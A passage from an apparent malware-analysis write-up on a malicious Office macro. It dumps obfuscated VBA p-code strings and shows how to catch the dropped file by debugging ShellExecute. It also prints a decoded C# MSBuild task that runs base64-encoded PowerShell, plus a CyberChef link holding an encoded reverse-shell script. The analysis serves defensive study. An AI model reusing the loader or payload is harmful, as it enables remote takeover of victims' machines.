lVWVEprUndFbFEwVlZVU0pWVlJKa1RWRkZjR0JqV05aVVZWbGtSVlYyUWs1V1dDWlVSVEpFWlhGbFFTZFZVT1JXVlJOblN3b2xhR1YxVUpaMGFrTkVaWWRsUUdCVFVDaFhiUkprUlhGbFVvVlZVdVpFTWtGbVIiCglBcmdzTGQgU3RyUmV2IDB4MDAwMSAKCUFkZCAKCVN0IFlsa0VkVlpZIApMaW5lICMxNDA6CglMZCBZbGtFZFZaWSAKCUxpdFN0ciAweDAwQzggIlhGbFNvVlZVenBFTWF0bVJWWkZTR0JUVkRaa1JVSmtSd0VsUWs1V1V6d21WUkpsV1ZGbGVLVlZVcFpVVldoa1J3STJRa2hsVkN4V1JUSkVldEYxTVNkVlUwTVdWUkpsU1ZWVlRHVmxWSVowYWpORVp1bGxRc1owVUNabGJSSmxUV0ZsZEdWVlVQWlVWVjFtUndJbVFHdEdWQ1pFYmFKa1J3RWxRa2RWVUN4V1ZSSmtUVkZGVEdWVlZGWlVSUGRrUndFbVFHVjFVIgoJQXJnc0xkIFN0clJldiAweDAwMDEgCglBZGQgCglTdCBZbGtFZFZaWSAKTGluZSAjMTQxOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJOWlVWUlJrUnJKbVFHeG1XQ0Z6YVNKa1N1RmxiT2RWVUNKVlZScFhTd1FXV0dCRFpJWlVWVU5rUldSbFFPZGtVQ0JuYlJORGFXRmxha1ZWVXhvVVZWNWtSd29GU0d0V1pEWmtWVUpFWnlJbFFrNVdVelkxVlJwbVZWRjFUS0JEWlhaRU1aUmtSd29sUWtOVFdDRlRSVEpFZXRGbGJPZFZVU1JXVlJKblNWVmxVR1ZWVUhaMGFUTmtSR1JsUUdCVFVDaFhiUk5qVCIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzE0MjoKCUxkIFlsa0VkVlpZIAoJTGl0U3RyIDB4MDBDOCAid2xHVTdrQ0t1VkdjUDVpYzdrQ0tsTldZd05uYjFKVlowRldaeU5rTDVKM2IwTldZR1YyWWhCM2N1Vm5VOUlISWxOV1l3Tm5iMUoxT3BFR2RoUkdLbjVXYXlSM1UwVjJSdVVHWnZOV2F1VmxMbjVXYWs5Mll1VlVQMEJYYXlOMmNnY21icEpIZHp0VEtpMFRQUkZsZEdWVlVQWlVWUjlrUlZWVlJHVlVUQ1owYVVKa1J3RWxRQ3BXVXU1MFZSUnpZVkZsVUtWVlYiCglBcmdzTGQgU3RyUmV2IDB4MDAwMSAKCUFkZCAKCVN0IFlsa0VkVlpZIApMaW5lICMxNDM6CglMZCBZbGtFZFZaWSAKCUxpdFN0ciAweDAwOTggIj00RGRqVm1hdkpIVXZ3alByTlhZVWRtYnBOWFZ2d2pQck5YWVU5Q1ArVUdadk4wTDg0VFhkMVhmN2tDS2o1V2V6RlVacjltZHVsa0x3dFRLMEJYYXlOMmNvUUhjcEozWVRSR1pCNXljazVXWXQxMmJENUNjN2tDS2w1V2FzVkdjcEJWWjBGV1p5TmtMeTFEY2dVbWJweFdaIgoJQXJnc0xkIFN0clJldiAweDAwMDEgCglBZGQgCglTdCBZbGtFZFZaWSAK).

## Method 2 - Enabling macros

If using this method, it's advisable to run in a virtual/isolated environment so that if this sample is truly malicious, it would not affect anything else on the network or on the device.

However, after clicking the enable content button:


And then going back into the visual basic editor, the code has changed:



The base64 strings that were seen in the previous method can also be seen here. These can once again be decrypted in the same way.

### Debugging code

Alternatively, instead of decoding, the debugger can be used to get the output. The compiled code would be executed with the ShellExecute:



The file can be seen in the `Open Environ(` function since it gets the filename using the `%USERPROFILE%` environment variable and then the `Print #1, decodeBase64(` to decode and then print the contents into that file. There's also a `Kill Environ(` which [deletes a file](https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/kill-statement). So between creation and deletion of the file, the contents are executed with the command listed in `ShellExecute`. The `#` don't offer much obfuscation and they're just removed anyway so they mean nothing. However, we can set a breakpint on the shellexecute and the file at that point should still exist and the contents can be read:




When running with the play button in the editor, and sure enough, when the program breaks, a file is present in the downloads directory.

## Decrypting the new code


As seen in the picture, c# code can be found. It's all on one line but new lines can be added wherever a `;` is seen since that's what c# uses as a delimiter:

```c#
using System;
using System.IO;
using System.Diagnostics;
using System.Reflection;
using System.Runtime.InteropServices;
using System.Collections.ObjectModel;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Text;using Microsoft.Build.Framework;
using Microsoft.Build.Utilities;
public class ClassExample:Task,ITask{
    public override bool Execute(){
        Program.Main();
        return true;
    }
}
    public class Program{
        public static void Main(){
            byte[]data=Convert.FromBase64String("big chunk of b64 here");
            string script=Encoding.Unicode.GetString(data);
            Runspace r=RunspaceFactory.CreateRunspace();
            r.Open();
            Pipeline p=r.CreatePipeline();
            p.Commands.AddScript(script);
            p.InvokeAsync();
        }
    }
```

Once again, the [base64 can be decoded](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)&input=Y0c5M1pYSnphR1ZzYkM1bGVHVWdJbU50WkM1bGVHVWdMMk1nSjJsd1kyOXVabWxuSnlJS2NHOTNaWEp6YUdWc2JDNWxlR1VnTFdWdVkyOWtaV1JEYjIxdFlXNWtJRnBuUWpGQlJ6UkJXWGRDTUVGSGEwRmlkMEoxUVVOQlFWTlJRblZCU0ZsQlluZENja0ZIVlVGTVVVSlJRVWM0UVdSM1FteEJTRWxCVlhkQ2IwRkhWVUZpUVVKelFVWlJRVmwzUW5kQlEwRkJSRkZCUzBGSWMwRkpRVUZPUVVGdlFWQkJRV3BCUVRCQlEyZEJkVUZHVFVGWFVVSlBRVVU0UVZWQlFsUkJSV3RCVlhkQlRrRkJiMEZVWjBKd1FVaE5RV0ZCUW1oQlJ6UkJXbmRCWjBGSVRVRlpkMEo1UVVkclFXTkJRakJCUTBGQlpIZENiMEZIYTBGWmQwSnZRVU5CUVZsM1FtaEJSelJCU1VGQ2FVRkhWVUZKUVVJeFFVaE5RVnBSUW10QlEwRkJXbWRDZGtGSVNVRkpRVUpUUVVkVlFXUm5RbXhCU0VsQlkzZENiRUZEUVVGaWQwSjVRVU5CUVZGblFuQkJSelJCV2tGQlowRkhhMEZpWjBJd1FVZFZRV05uUW1oQlIwMUJaRUZDY0VGSVdVRmFVVUZuUVVaQlFXSjNRak5CUjFWQlkyZENWRUZIWjBGYVVVSnpRVWQzUVVsQlFtMUJTRWxCWW5kQ2RFRkRRVUZaVVVGblFVaFJRVmxSUW5sQlIyTkJXbEZDTUVGRE5FRkpRVUZPUVVGdlFVUlJRVXRCUXpSQlVrRkNSa0ZHVFVGUmQwSlRRVVZyUVZWQlFsVkJSV3RCVkhkQ1QwRkJNRUZEWjBKVlFVZG5RV0ZSUW5wQlEwRkJZM2RDYWtGSVNVRmhVVUozUVVoUlFVbEJRbkJCU0UxQlNVRkNhRUZIU1VGaVFVSnNRVU5CUVdSQlFuWkJRMEZCV1hkQ2RrRkhORUZpWjBKc1FVZE5RV1JCUVdkQlNGRkJZbmRCWjBGSFJVRkpRVUo2UVVoUlFWbFJRblZCUjFGQldWRkNlVUZIVVVGSlFVSjFRVWRWUVdSQlFtcEJSMFZCWkVGQlowRkhkMEZoVVVKNlFVaFJRVnBSUW5WQlIydEJZbWRDYmtGRFFVRmlkMEoxUVVOQlFWbFJRV2RCU0VGQlluZENlVUZJVVVGSlFVSXpRVWRuUVZwUlFuVkJRMEZCWkZGQ2VrRkhhMEZpWjBKdVFVTkJRV1JCUW05QlIxVkJTVUZCZEVGR1NVRmFVVUl5UVVkVlFXTm5RbnBCUjFWQlNVRkNla0ZJWTBGaFVVSXdRVWROUVdGQlFYVkJRMEZCUkZGQlMwRkZSVUZpUVVKNlFVYzRRVXhCUVdkQlIwVkJTVUZDZWtGSVVVRlpVVUoxUVVkUlFWbFJRbmxCUjFGQlNVRkNkVUZIVlVGa1FVSnFRVWRGUVdSQlFXZEJSMDFCV1ZGQ2RVRkRRVUZaZDBKMlFVYzBRV0puUW14QlIwMUJaRUZCWjBGSVVVRmlkMEZuUVVoUlFXRkJRbkJCU0UxQlNVRkNla0ZIVFVGalowSndRVWhCUVdSQlFXZEJSVWxCWVZGQ2RVRkhVVUZKUVVJd1FVYzRRVWxCUW1oQlEwRkJZM2RDZDBGSFZVRlpkMEp3UVVkWlFXRlJRbXBCUTBGQlkwRkNka0ZJU1VGa1FVRjFRVUV3UVVOblFVNUJRVzlCVmtGQ2IwRkhWVUZKUVVKNlFVZE5RV05uUW5CQlNFRkJaRUZCWjBGSGEwRmpkMEZuUVVkUlFWcFJRbmxCUjJ0QlpHZENiRUZIVVVGSlFVSnRRVWhKUVdKM1FuUkJRMEZCVlVGQ2RrRklZMEZhVVVKNVFVZFpRV1JSUW5WQlEwRkJaSGRDZVVGSGEwRmtRVUl3UVVkVlFXSm5RV2RCUjBsQlpWRkJaMEZGU1VGYVVVSjFRVU5CUVZaQlFqRkJTRWxCWW1kQ2JFRklTVUZKUVVGdFFVTkJRVkpCUW1oQlNGbEJXbEZCWjBGRlowRlpVVUo1UVVkUlFXVlJRVTVCUVc5QlJGRkJTMEZETkVGVlFVSkNRVVpKUVZGUlFrNUJSVlZCVmtGQ1JrRkdTVUZKUVVKS1FVWkJRVkZSUW10QlIxRkJZMmRDYkVGSVRVRmpkMEZPUVVGdlFWWkJRbTlCUjFWQlNVRkNTa0ZHUVVGSlFVSm9RVWRSUVZwQlFubEJSMVZCWTNkQ2VrRkRRVUZrUVVKMlFVTkJRVmwzUW5aQlJ6UkJZbWRDYkVGSFRVRmtRVUZuUVVoUlFXSjNRV2RCU0dOQllVRkNiRUZITkVGSlFVSXhRVWhOUVdGUlFuVkJSMk5CU1VGQ01FRkhaMEZhVVVGblFVTXdRVlZuUW14QlNGbEJXbEZDZVVGSVRVRmFVVUZuUVVoTlFXUjNRbkJCU0ZGQldYZENiMEZETkVGRVVVRkxRVUV3UVVOblFYVkJSa0ZCVVZGQ1UwRkZSVUZVVVVKR1FVWlJRVkpSUWxOQlEwRkJWVUZDZGtGSVNVRmtRVUZPUVVGdlFWWkJRbTlCUjFWQlNVRkNkMEZIT0VGalowSXdRVU5CUVdSQlFuWkJRMEZCV1hkQ2RrRkhORUZpWjBKc1FVZE5RV1JCUVdkQlNGRkJZbmRCWjBGSVkwRmhRVUpzUVVjMFFVbEJRakZCU0UxQllWRkNkVUZIWTBGSlFVSXdRVWRuUVZwUlFXZEJRekJCVldkQ2JFRklXVUZhVVVKNVFVaE5RVnBSUVdkQlNFMUJaSGRDY0VGSVVVRlpkMEp2UVVNMFFVbEJRbGhCUjJkQldsRkNkVUZEUVVGa1VVSjZRVWRyUVdKblFtNUJRMEZCVEZGQ1EwRkhhMEZpWjBKclFVTkJRV0ZSUWpCQlEwRkJZVkZDZWtGRFFVRmtRVUp2UVVkVlFVbEJRbmRCUnpoQlkyZENNRUZEUVVGaWQwSjFRVU5CUVdSM1FtOUJSMnRCV1hkQ2IwRkRRVUZrUVVKdlFVZHJRV04zUVdkQlNFMUJXWGRDZVVGSGEwRmpRVUl3UVVOQlFXSkJRbkJCU0UxQlpFRkNiRUZITkVGamQwRjFRVUV3UVVOblFVNUJRVzlCVEdkQ1JrRkdaMEZSVVVKT1FVWkJRVlJCUWtaQlFUQkJRMmRDVVVGR1RVRkpRVUVyUVVOQlFWTlJRblZCU0ZsQlluZENja0ZIVlVGTVVVSlJRVWM0UVdSM1FteEJTRWxCVlhkQ2IwRkhWVUZpUVVKelFVWlJRVmwzUW5kQlEwRkJURkZDVTBGSFZVRmtaMEpzUVVoSlFXTjNRbXhCUTBGQlRGRkNTa0ZHUVVGUlVVSnJRVWRSUVdOblFteEJTRTFCWTNkQlowRkVSVUZQVVVGNVFVTTBRVTFSUVRKQlJHZEJUR2RCZVVGRVZVRk9RVUYxUVVSSlFVMW5RVEpCUTBGQlRGRkNVVUZIT0VGalowSXdRVU5CUVU1QlFUQkJSRkZCVGtGQlRrRkJiMEZFVVVGTFFVVkZRVmxuUW5aQlNGbEJXbEZCWjBGSVRVRmhRVUoyUVVoalFXTjNRV2RCUjBWQlltZEJaMEZIVlVGbFFVSm9RVWN3UVdOQlFuTkJSMVZCU1VGQ2RrRkhXVUZKUVVKb1FVYzBRVWxCUW5CQlJ6UkJaRUZDYkVGSVNVRlpVVUpxUVVoUlFXRlJRakpCUjFWQlNVRkNVVUZIT0VGa2QwSnNRVWhKUVZWM1FtOUJSMVZCWWtGQ2MwRkRRVUZqWjBKc1FVaFpRVnBSUW5sQlNFMUJXbEZCWjBGSFRVRmlkMEoxUVVjMFFWcFJRbXBCU0ZGQlNVRkNla0ZIWjBGYVVVSnpRVWQzUVV4blFXZEJSVVZCU1VGQ2RVRkhWVUZrUVVKcVFVZEZRV1JCUVhaQlNFRkJZbmRDTTBGSFZVRmpaMEpxUVVkRlFXUkJRV2RCUjNkQllWRkNla0ZJVVVGYVVVSjFRVWRWUVdOblFXZEJSekJCWkZGQ2VrRklVVUZKUVVKcFFVZFZRVWxCUW5OQlIydEJZM2RDTUVGSFZVRmlaMEp3UVVjMFFWcDNRV2RCUnpoQlltZEJaMEZCTUVGRFowSXdRVWRuUVZwUlFXZEJSMk5CWVZGQ01rRkhWVUZpWjBGblFVVnJRVlZCUVdkQlIwVkJZbWRDYTBGRFFVRmpRVUoyUVVoSlFXUkJRWFZCUTBGQlJGRkJTMEZCTUVGRFowRjFRVVZWUVZkQlFrSkJSVEJCVlVGQ1RVRkZWVUZFVVVGTFFVWkJRVlYzUVdkQlJEUkJTVUZDU2tGSE5FRmtaMEoyUVVkelFWcFJRWFJCUmtGQlluZENNMEZIVlVGalowSlVRVWRuUVZwUlFuTkJSM2RCVmtGQ2FrRklRVUZKUVVGMFFVVkpRV0ZSUW5WQlIxRkJTVUZCZEVGR1FVRmlkMEo1UVVoUlFVbEJRVEJCUkZGQlRrRkJNRUZCTUVGRFowRk9RVUZ2UVZGUlFtbEJSemhCWkdkQ2JFRkRRVUZqZDBKdlFVYzRRV1IzUW5wQlEwRkJXVkZDZFVGRFFVRmFVVUkwUVVkRlFXSlJRbmRCUjNkQldsRkJaMEZIT0VGYVowRm5RVWRGUVdKblFXZEJSMnRCWW1kQ01FRkhWVUZqWjBKb1FVZE5RV1JCUW5CQlNGbEJXbEZCWjBGR1FVRmlkMEl6UVVkVlFXTm5RbFJCUjJkQldsRkNjMEZIZDBGSlFVSnBRVWRyUVdKblFtdEJRMEZCV1hkQ2RrRkhORUZpWjBKc1FVZE5RV1JCUVdkQlNFMUJZVUZDYkVGSGQwRmlRVUYxUVVOQlFWWlJRbnBCUjFWQlNVRkNhRUZEUVVGaVowSnNRVWhSUVZsM1FtaEJTRkZCVEhkQ2QwRkhPRUZrZDBKc1FVaEpRVmwzUW1oQlNGRkJTVUZDTUVGSE9FRkpRVUpxUVVjNFFXSm5RblZCUjFWQldYZENNRUZEUVVGa1FVSjJRVU5CUVdSQlFtOUJSMnRCWTNkQlowRklRVUZpZDBKNVFVaFJRVXhuUVdkQlFUQkJRMmRCVGtGQmIwRk1aMEpHUVVablFWRlJRazVCUmtGQlZFRkNSa0ZCTUVGRFowSlJRVVpOUVVsQlFTdEJRMEZCVTFGQ2RVRklXVUZpZDBKeVFVZFZRVXhSUWxGQlJ6aEJaSGRDYkVGSVNVRlZkMEp2UVVkVlFXSkJRbk5CUmxGQldYZENkMEZEUVVGTVVVSlRRVWRWUVdSblFteEJTRWxCWTNkQ2JFRkRRVUZNVVVKS1FVWkJRVkZSUW10QlIxRkJZMmRDYkVGSVRVRmpkMEZuUVVkWlFWcFJRVFJCUkVGQlQyZEJOa0ZFU1VGTlFVSnFRVVJ2UVUxblFUVkJSMWxCV21kQk5rRkhXVUZhVVVFMVFVZFJRVTluUW1sQlJHdEJUMEZCZWtGRFFVRk1VVUpSUVVjNFFXTm5RakJCUTBGQlRrRkJNRUZFVVVGT1FVRk9RVUZ2UVVSUlFVdEJSVVZCV1dkQ2RrRklXVUZhVVVGblFVaE5RV0ZCUW5aQlNHTkJZM2RCWjBGSFJVRmlaMEZuUVVkVlFXVkJRbWhCUnpCQlkwRkNjMEZIVlVGSlFVSjJRVWRaUVVsQlFtaEJSelJCU1VGQ2NFRkhORUZrUVVKc1FVaEpRVmxSUW1wQlNGRkJZVkZDTWtGSFZVRkpRVUpSUVVjNFFXUjNRbXhCU0VsQlZYZENiMEZIVlVGaVFVSnpRVU5CUVdOblFteEJTRmxCV2xGQ2VVRklUVUZhVVVGblFVZE5RV0ozUW5WQlJ6UkJXbEZDYWtGSVVVRkpRVUo2UVVkblFWcFJRbk5CUjNkQlNVRkNka0ZJV1VGYVVVSjVRVU5CUVZOUlFsRkJTRmxCVG1kQmRVRkRRVUZSVVVGblFVYzBRVnBSUWpCQlIwMUJXVkZDTUVGRE9FRmpRVUoyUVVoalFWcFJRbmxCUjAxQldWRkNNRUZEUVVGaVFVSndRVWhOUVdSQlFteEJSelJCV2xGQ2VVRkRRVUZpVVVJeFFVaE5RV1JCUVdkQlIwbEJXbEZCVGtGQmIwRmlRVUp3UVVoTlFXUkJRbXhCUnpSQllWRkNkVUZIWTBGSlFVSjJRVWMwUVVsQlFqQkJSMmRCV2xGQlowRkhZMEZoVVVJeVFVZFZRV0puUVdkQlJXdEJWVUZCWjBGSFJVRmlaMEpyUVVOQlFXTkJRblpCU0VsQlpFRkJkVUZEUVVGRVVVRkxRVUV3UVVOblFYVkJSWGRCVTFGQ1QwRkZjMEZFVVVGTFFVZG5RV1JCUWpCQlNFRkJUMmRCZGtGRE9FRmtkMEl6UVVoalFVeG5Rbk5CUjBWQldXZENka0ZIV1VGWlVVSjNRVWRWUVdKblFteEJTRkZCWTJkQ2FFRklVVUZoVVVKMlFVYzBRV1JCUW14QlNFMUJaRUZDYkVGSVNVRk1aMEpxUVVjNFFXSlJRWFpCUkVsQlRVRkJlRUZFVlVGTWQwRjNRVVJWUVV4M1FqTkJSMVZCV2xGQ2NrRkRNRUZpZDBKdFFVTXdRV05CUW5aQlNHTkJXbEZDZVVGSVRVRmhRVUpzUVVkM1FXSkJRWFJCU0UxQllVRkNiRUZIZDBGaVFVSjZRVU13UVZwQlFtaEJTR3RCVEZGQmVFRkRORUZoUVVJd1FVY3dRV0pCUVU1QlFXOUJZVUZDTUVGSVVVRmpRVUo2UVVSdlFVeDNRWFpCUjJOQllWRkNNRUZIWjBGa1VVSnBRVU0wUVZsM1FuWkJSekJCVEhkQ2RVRkhWVUZrUVVJd1FVZHJRV1JCUWpGQlIxRkJXbEZCZGtGSVFVRmlkMEl6UVVkVlFXTm5RbnBCUjJkQldsRkNjMEZIZDBGTWQwSnBRVWQzUVdKM1FtbEJRemhCWWxGQ2FFRklUVUZrUVVKc1FVaEpRVXgzUW5kQlJ6aEJaSGRDYkVGSVNVRmFaMEl4UVVjMFFVeG5RbmRCU0UxQlRWRkJUa0ZCYjBGaFFVSXdRVWhSUVdOQlFucEJSRzlCVEhkQmRrRkhZMEZoVVVJd1FVZG5RV1JSUW1sQlF6UkJXWGRDZGtGSE1FRk1kMEo2UVVkRlFXSlJRbmxCUjBWQlpFRkNhRUZJVFVGaFFVSjJRVWR6UVV4M1FuVkJSMnRCWTNkQ2IwRkhSVUZpWjBKdVFVRXdRVU5uUVdwQlJEUkJTVUZCWjBGRFFVRkpRVUZuUVVOQlFVUlJRVXRCUTBGQlNVRkJaMEZEUVVGWGQwSkVRVWN3UVZwQlFuTkJSMVZCWkVGQ1EwRkhhMEZpWjBKclFVZHJRV0puUW01QlEyZEJVa0ZDYkVGSFdVRlpVVUl4UVVkM1FXUkJRbEZCUjBWQlkyZENhRUZITUVGYVVVSXdRVWRWUVdOblFsUkJSMVZCWkVGQ1QwRkhSVUZpVVVKc1FVUXdRVWxuUW5sQlIxVkJaR2RDYkVGSVNVRmpkMEpzUVVOSlFVdFJRbVJCUTBGQlZVRkNhRUZJU1VGWlVVSjBRVU5uUVVSUlFVdEJRVEJCUTJkQlowRkRRVUZKUVVGblFVTkJRVWxCUVdkQlEwRkJWM2RDVVVGSFJVRmpaMEpvUVVjd1FWcFJRakJCUjFWQlkyZEJiMEZHUVVGaWQwSjZRVWRyUVdSQlFuQkJSemhCWW1kQlowRkVNRUZKUVVGM1FVTjNRVWxCUWs1QlIwVkJZbWRDYTBGSFJVRmtRVUoyUVVoSlFXVlJRV2RCUkRCQlNVRkJhMEZJVVVGalowSXhRVWRWUVV4QlFXZEJSa0ZCV1ZGQ2VVRkhSVUZpVVVKc1FVaFJRVnBSUW5sQlJrMUJXbEZDTUVGRk5FRlpVVUowUVVkVlFWQlJRV2xCU0VsQldsRkNNa0ZIVlVGalowSjZRVWRWUVVsblFYQkJSakJCUkZGQlMwRkRRVUZKUVVGblFVTkJRVWxCUVdkQlEwRkJTVUZDWWtGR1FVRlpVVUo1UVVkRlFXSlJRbXhCU0ZGQldsRkNlVUZEWjBGVlFVSjJRVWhOUVdGUlFqQkJSMnRCWW5kQ2RVRkRRVUZRVVVGblFVUkJRVXhCUVdkQlJUQkJXVkZDZFVGSFVVRlpVVUl3UVVjNFFXTm5RalZCUTBGQlVGRkJaMEZEVVVGYVowSm9RVWQzUVdOM1FteEJRM2RCU1VGQ1VVRkhSVUZqWjBKb1FVY3dRVnBSUWpCQlIxVkJZMmRDVkVGSFZVRmtRVUpQUVVkRlFXSlJRbXhCUkRCQlNXZENhVUZIYTBGaVowSnJRVU5KUVV0UlFtUkJRVEJCUTJkQlowRkRRVUZKUVVGblFVTkJRVWxCUVdkQlEwRkJWM2RDVkVGSVVVRmpaMEp3UVVjMFFWcDNRbVJCUVRCQlEyZEJaMEZEUVVGSlFVRm5RVU5CUVVsQlFXZEJRMEZCU2tGQ1NrRkdRVUZSVVVKclFVZFJRV05uUW14QlNFMUJZM2RCYzBGQk1FRkRaMEZPUVVGdlFVbEJRV2RCUTBGQlNVRkJaMEZEUVVGSlFVRm5RVVp6UVZWQlFtaEJTRWxCV1ZGQ2RFRkhWVUZrUVVKc1FVaEpRVXRCUWxGQlJ6aEJZM2RDY0VGSVVVRmhVVUoyUVVjMFFVbEJRVGxCUTBGQlRWRkJjMEZEUVVGVVVVSm9RVWMwUVZwQlFtaEJTRkZCWW5kQ2VVRklhMEZKUVVFNVFVTkJRVXBCUWpCQlNFbEJaRkZDYkVGRGQwRkpRVUpSUVVkRlFXTm5RbWhCUnpCQldsRkNNRUZIVlVGalowSlVRVWRWUVdSQlFrOUJSMFZCWWxGQ2JFRkVNRUZKWjBKNVFVZFZRV1JuUW14QlNFbEJZM2RDYkVGRFNVRkxVVUprUVVFd1FVTm5RV2RCUTBGQlNVRkJaMEZEUVVGSlFVRm5RVU5CUVZkM1FsRkJSMFZCWTJkQ2FFRkhNRUZhVVVJd1FVZFZRV05uUVc5QlJrRkJZbmRDZWtGSGEwRmtRVUp3UVVjNFFXSm5RV2RCUkRCQlNVRkJlRUZEZDBGSlFVSk9RVWRGUVdKblFtdEJSMFZCWkVGQ2RrRklTVUZsVVVGblFVUXdRVWxCUVd0QlNGRkJZMmRDTVVGSFZVRk1RVUZuUVVaQlFWbFJRbmxCUjBWQllsRkNiRUZJVVVGYVVVSjVRVVpOUVZwUlFqQkJSVFJCV1ZGQ2RFRkhWVUZRVVVGcFFVZEpRV0ZSUW5WQlIxRkJTV2RCY0VGR01FRkVVVUZMUVVOQlFVbEJRV2RCUTBGQlNVRkJaMEZEUVVGSlFVSmlRVVZyUVdKblFqQkJSakJCUkZGQlMwRkRRVUZKUVVGblFVTkJRVWxCUVdkQlEwRkJTVUZCYTBGR1FVRmlkMEo1UVVoUlFVeEJRVTVCUVc5QlJGRkJTMEZEUVVGSlFVRm5RVU5CUVVsQlFXZEJRMEZCU1VGQ1lrRkdRVUZaVVVKNVFVZEZRV0pSUW14QlNGRkJXbEZDZVVGRFowRlZRVUpvUVVoSlFWbFJRblJCUjFWQlpFRkNiRUZJU1VGVmQwSnNRVWhSUVZSblFtaEJSekJCV2xGQk9VRkRTVUZqWjBKc1FVaFpRVnBSUW5sQlNFMUJXbEZCYVVGRGEwRllVVUZPUVVGdlFVbEJRV2RCUTBGQlNVRkJaMEZEUVVGSlFVRm5RVVp6UVZWM1FqTkJSMnRCWkVGQ2FrRkhaMEZZVVVGT1FVRnZRVWxCUVdkQlEwRkJTVUZCWjBGRFFVRkpRVUZuUVVOUlFWVm5RbXhCU0ZsQldsRkNlVUZJVFVGYVVVRnpRVUV3UVVOblFVNUJRVzlCU1VGQlowRkRRVUZKUVVGblFVTkJRVWxCUVdkQlJuTkJWVUZDYUVGSVNVRlpVVUowUVVkVlFXUkJRbXhCU0VsQlMwRkNVVUZIUlVGalowSm9RVWN3UVZwUlFqQkJSMVZCWTJkQ1ZFRkhWVUZrUVVKUFFVZEZRV0pSUW14QlJEQkJTV2RDYVVGSGEwRmlaMEpyUVVOSlFVdFJRbVJCUVRCQlEyZEJaMEZEUVVGSlFVRm5RVU5CUVVsQlFXZEJRMEZCVjNkQ1ZFRklZMEZoVVVJd1FVZE5RV0ZCUW1SQlFUQkJRMmRCWjBGRFFVRkpRVUZuUVVOQlFVbEJRV2RCUTBGQlNrRkNRMEZIYTBGaVowSnJRVUV3UVVOblFVNUJRVzlCU1VGQlowRkRRVUZKUVVGd1FVRXdRVU5uUVU1QlFXOUJTVUZCWjBGRFFVRkpRVUZPUVVGdlFVbEJRV2RCUTBGQlNVRkNNRUZJU1VGbFVVRm5RVUV3UVVOblFXZEJRMEZCU1VGQlowRkljMEZFVVVGTFFVTkJRVWxCUVdkQlEwRkJTVUZCWjBGRFFVRkpRVUZxUVVWTlFXSjNRblZCUnpSQldsRkNha0ZJVVVGSlFVSnBRVWRGUVZsM1FuSkJRMEZCWVZGQ2JVRkRRVUZrUVVKdlFVZFZRVWxCUW5sQlIxVkJaR2RDYkVGSVNVRmpkMEpzUVVOQlFXTjNRak5CUjJ0QlpFRkNha0ZIWjBGSlFVSndRVWhOUVVsQlFqRkJTRTFCV2xGQ2EwRkRORUZFVVVGTFFVTkJRVWxCUVdkQlEwRkJTVUZCWjBGRFFVRkpR